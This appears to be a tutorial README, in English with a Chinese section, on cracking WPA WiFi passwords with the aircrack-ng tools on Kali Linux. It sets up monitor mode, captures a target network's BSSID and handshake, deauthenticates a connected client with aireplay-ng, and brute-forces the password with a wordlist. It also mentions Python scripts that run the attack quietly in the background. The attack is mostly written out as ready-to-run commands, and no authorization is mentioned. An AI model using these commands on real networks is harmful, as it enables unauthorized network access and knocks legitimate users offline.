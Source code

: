# wifi: what's cracking?

> see [HackMD](https://hackmd.io/WEyS9iLSRje7boteEW4bWg)

## For Connection: network configuration


When pluging the usb device in, this window will pop up. Choose `Connect to Virtual machine` > select your destination device.

![圖片](https://hackmd.io/_uploads/HyYE0AqXyx.png)

`OK`
![圖片](https://hackmd.io/_uploads/ByDQCC5myx.png)

To check the device has already been connected, run `iwconfig` and you must see the device.
![圖片](https://hackmd.io/_uploads/BJgmRA971l.png)

If you see the device by running `lsusb` but don't see it appears at `iwconfig`, again, do the steps above, or check the network settings below. And if you did them several times but still don't see the device, restart the virtual machine.

Here is the connection settings.
`Tabs` >
![圖片](https://hackmd.io/_uploads/rympRA9Xyl.png)

`Edit` > `Virtual Network Editor`
No need to bridge
![圖片](https://hackmd.io/_uploads/r1UOR0qmyl.png)

`VM` > `Settings` > `Network Adapter`
Usually the pluging usb is `VMnet0`
![圖片](https://hackmd.io/_uploads/H1qeJko7Jx.png)


And the setting process is done. Go enjoy your cracking!

## Crack a wifi password: using commands

### Start Monitor Mode

Open monitor mode for the network adaptor is necessary. Here's several commands:

```bash=
ifconfig wlan0 down
```

If you run this, get no networks is normal.
```bash=2
airmon-ng check kill
```


```bash=3
iwconfig wlan0 mode monitor
```
If you see this, ignore it.
![圖片](https://hackmd.io/_uploads/S1VqYys71e.png)

```bash=4
ifconfig wlan0 up
airmon-ng start wlan0
```

To test if monitor mode really on, and ready for injection:
```bash=6
aireplay-ng --test wlan0
```
This is a success response: Injection is working!
![圖片](https://hackmd.io/_uploads/ryDatyj71g.png)

### Turn off monitor mode and recorvery neworks

```bash=
airmon-ng stop wlan0
ifconfig wlan0 down
```
Cause you've killed network manager, you don't have network connection. To recorver it, run:
```bash=3
service NetworkManager restart
```

### Crack a password

#### 1. get the target BSSID

For ex, the target has name `alEx`.
```
airodump-ng --essid alEx wlan0
```
You'll see the `BSSID` at the top left. `Ctrl+C` to interrupt it and copy the address: `62:2D:E9:E6:8A:47`
![圖片](https://hackmd.io/_uploads/rkRyAJjQJl.png)

#### 2. get stations' mac address that connected to the target
```
airodump-ng --bssid 62:2D:E9:E6:8A:47 -c 1 -w /home/kali/Desktop/nets/test1 wlan0
```

And files will store at `/home/kali/Desktop/nets/` with preffix `test1`.

Wait for 5 to 30 seconds, their should be an address (or addresses) below `STATION`.
By the way, the channel `CH` should stay at `1`.
![圖片](https://hackmd.io/_uploads/S1SbGesQke.png)

#### 3. get ACK

Open **ANOTHER** terminal, and the command above should stay running.
```
aireplay-ng -0 20 -a 62:2D:E9:E6:8A:47 -c 50:C2:E8:0B:44:55 wlan0
```

#### 4. EXPLOSION!!

Check the ACK you just get, the file name extension is `.cap`. And usually the latest one has the biggest number.
![圖片](https://hackmd.io/_uploads/SJRS_ximyl.png)

And there we go!
```
aircrack-ng -a2 -b 62:2D:E9:E6:8A:47 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1*.cap
```

![圖片](https://hackmd.io/_uploads/SJQYkZs7Jx.png)

## Crack a wifi password: with Python scripts

基本上大部分情況都會被處理，如果還是爆開就...用上面的指令打，因為用上面的指令還比較有展示性一點，但如果用 script 就能悄悄的攻擊，兩種不一樣的方式。

所以如果可以的話，先問他們 wifi 名稱，放到 script 裡面讓他背景執行。如果真的不行的話再手動打，現場展示。



基本上會改的部分就是 `target`、`file_path`、`passwordSet_path`。

主要：
* `target`：要攻擊的目標名稱。

其他還有像是：
* `file_path`：要儲存的檔案**路徑**。
* `passwordSet_path`：密碼集文字檔的所在地。

![圖片](https://hackmd.io/_uploads/BJkkIEy4Jg.png)

